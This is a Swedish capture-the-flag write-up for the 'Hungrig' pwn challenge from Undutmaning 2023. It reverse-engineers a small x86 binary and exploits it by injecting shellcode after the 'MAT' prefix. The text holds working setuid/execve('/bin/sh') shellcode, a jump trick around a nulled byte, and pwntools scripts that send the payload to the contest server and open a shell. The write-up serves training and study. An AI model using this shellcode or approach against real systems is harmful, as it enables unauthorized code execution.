

# Undutmaning 2023

## PWN - Hungrig Writeup

    hungrig
    En liten binär som gärna vill 
    låta dig exekvera godtycklig kod 
    men som är lite för glupsk... 
    Hungriga monstret hittas på bageriets 
    server 46.246.39.89:31332!
        hungrig.zip
 
    $ file hungrig
    ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

Strings ger oss inte så mycket förutom "mata mig" och lite annat relaterat till gcc compilern

När vi kör programmet promptar den oss för input:

Med lite arbiträr input så hänger programmet sig och segfaultar även ibland

Eftersom vi inte har någon källkod är min första instinkt att öppna binären i en disassembler, jag valde IDA

Initiering av programmet, notera calls till sys_write, sys_mmap2 och sys_read

Huvudsaklig funktionalitet.
Returnvärdet av sys_access styr den stora loopen, om den returnerar F2h (-14d = Bad address) hoppar vi ner till loc_804910F  :

Där OR'ar vi bx med FFF sen incrementerar. Detta är effektivt en addition av 1000h.

Det som är intressant är är att om vi lyckas komma ut ur loopen
så leder det till *jmp edi*. 

Vad som finns i edi när vi kommer dit
svårt att ta reda på utan att dynamiskt analysera binären.

Vi kan även notera att värdet som sys_access tar in som *pathname* förvaras
i registret ebx. Efter vi callar sys_read sparas return värdet i ebx. Sys_read() returnerar antalet bytes som lästes. Längden på vår input kommer alltså användas som *pathname* argumentet till sys_access.

Detta innebär att man alltid kommer gå in i loopen då sys_read högst läser 80h (128d) bytes Detta är inte ett giltigt *pathname*. Därefter kommer bx (de 2 lägsta bytes i ebx) incrementeras med 1000h.

Man kan då tro att loopen kommer fortsätta för evigt eftersom hur skulle ebx någonsin innehålla ett giltigt pathname? Det är där sys_mmap2 kommer in. I början av programmet mappas en region av minnet av mmap2. 
Basaddressen av detta segment sparas i ecx, som också råkar vara buffern som sys_read fyller. Loopen kommer därför till sist incrementeras tills ebx = minnesaddressen allokerad av mmap2, som är ett giltigt input till sys_access. 

Därefter körs *repe cmpsd* som jämför strängarna i edi och esi. Dessa fylls strax innan med addresserna av sys_read buffern respektive stacken.

På stacken ligger även en sträng: "MAT".

Om dessa strängar är identiska hoppar vi till loc_8049117, dit vi vill. Början av vår input måste alltså innehålla "MAT". 

Om vi nu kör vårt program med inputen "MAT" borde vi komma ut ur loopen, men vad som händer är att efter strängarna jämförs fortsätter vi i loopen. Hmmmm, varför sker detta då? Jo, när vi skickar vår input "MAT" skickar vi även med en \n (newline) karaktär. Denna är med i jämförelsen, vilket innebär att strängen på stacken (som avlutas av en nullbyte) inte är identisk till våran.

I syftet av att debugga programmet gick jag bara in och manuellt patchade detta när jag körde det. 

Nu kan vi se vad som händer med edi när vi kommer till jmp instruktionen.
Jag sätter en breakpoint på jmp instruktionen och låter programmet köra efter jag patchat nullbyten

Vi ser att edi = F7F76004, vilket råkar vara 4 bytes in i vår input buffer. Eftersom vi vet att programmet kommer att hoppa precis efter vår input "MAT\x00" kan vi fylla detta med någon trevlig shellcode

Följande (linux/x86) setuid(0) & execve("/bin/sh",0,0) shellcode borde fungera

    "x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

src: https://shell-storm.org/shellcode/files/shellcode-516.html

Vår payload blir då "MAT\0x00\<shellcode>"
För att skicka in detta smidigt till processen använder vi pwntools i python

    import time
    from pwn import *

    r = process('./hungrig')
    r.waitfor("mata mig:")

    time.sleep(1)

    r.send_raw(shellcode)

    r.interactive()

Vi testar detta lokalt men får ett seg fault! Hmmm, för att debugga detta gick jag in manuellt i IDA och patchade in shellcoden efter min input. Efter att vi kör fram till jmp instruktion kan vi se något märkligt hända i vår input buffer

Byte F7F15008 har blivit ersatt av en nullbyte! Detta är såklart uppenbart om man kollar på instruktionerna vi precis gick genom för att komma till jmp instruktionen, men vem orkar kolla på dem. 

I vilket fall har vi nu ett problem. Efter vår obligatoriska input av "MAT\x00" har vi bara 3 bytes innan en nullbyte, efter vilket programmet segfaultar. Vi kan lösa detta genom att sätta in ytterliggare en instruktion som hoppar över nullbyten. 
x86 instruktionen för jmp är EB, därefter vill vi hoppa en offset på några bytes, jag valde 4. Våran nya shellcode blir därför :

             Denna jmp hoppar hit
              -------------------
              |                 |
              |                 | 
    "MAT\x00\xeb\04\00\00\00\00\<shellcode>"
                       |
                       | 
                    Denna byte ersätts alltid med en nullbyte

Om vi använder vårt python script från tidigare kan vi nu skicka vår payload till en lokal process för att testa vår POC vilket verkar fungera.

Här är hur input buffern ser ut precis när programmet hoppar till den (edi innehåller addressen FF150004):

För att skicka till maskinen med flaggan använder vi följande:

    import time
    from pwn import *

    # start the process
    r = remote("46.246.39.89", 31332)

    r.waitfor("mata mig:")

    shellcode = b"MAT\x00\xeb\x04\x00\x00\x00\x00\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

    time.sleep(1)

    # send input to the process
    r.send_raw(shellcode)

    r.interactive()

    --------

    # ls
      Run
      flag.txt
    # cat flag.txt
      undut{ZGV0IHN0w6VyIFBFVCBww6Ugc2lkYW4gYXYgYsOldGVuLiBLYW4gZGV0IHZhcmEgc2}

Sammanfattning:
Binären tar in en input och sparar denna i en buffer. Inputsträngen jämförs med en sträng på stacken, om de är lika hoppar programflödet till en offset på 4 bytes i vår input buffer. Detta ger oss möjligheten att lägga in shellcode i vår input som sedan exekveras på maskinen. Men först ersätts en byte i vår input buffer med en nullbyte, som måste undvikas genom att lägga in en extra jmp instruktion som hoppar över denna nullbyte. 

